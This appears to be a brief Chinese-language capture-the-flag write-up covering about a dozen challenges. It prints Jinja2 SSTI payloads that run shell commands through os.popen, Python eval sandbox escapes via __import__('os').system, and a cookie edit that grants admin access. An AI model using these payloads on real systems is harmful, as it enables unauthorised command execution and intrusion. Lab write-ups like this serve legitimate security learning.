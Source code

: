 通靈看到密碼是 `iloveshark`

## Simplify

登進去把 cookie 裡的 username 改成 admin 題目提示是 ssti 上網找 payload
``{{ cycler.__init__.__globals__.os.popen('ls').read() }}``
`{{ cycler.__init__.__globals__.os.popen('cat flag').read() }}`

## 原神帳號外流

用 wireshark 過濾 `http.request.uri=="/login"` 找到裡面沒登入失敗的那組帳密登進去

## PyJail-0

看程式碼使用了 eval() 上網找 payload `__import__('os').system('ls')`
取得 flag

## Geoguesser???

找圖片上的電話找到補習班用 google map 找到位置然後開始通靈找 flag

## I want to go to Japan

google 找　湯の川　聖羅　找到湯倉神社

## 出題者大合照

用 steghide 找到裡面藏的 flag.txt

## PyJail-1

先用
`eval(input())`
然後
`__import__('os').system('ls')`
取得 shell


## Evil Form

從 script 可以找到三段 flag flag2 用 rot47 decode
> 提示的 history 拼錯我還以為那是什麼特別的東西==

## Welcome

tag 和 rule 裡面有藏 flag

## Discord

機器人身份組、指令、badge 都有藏 flag
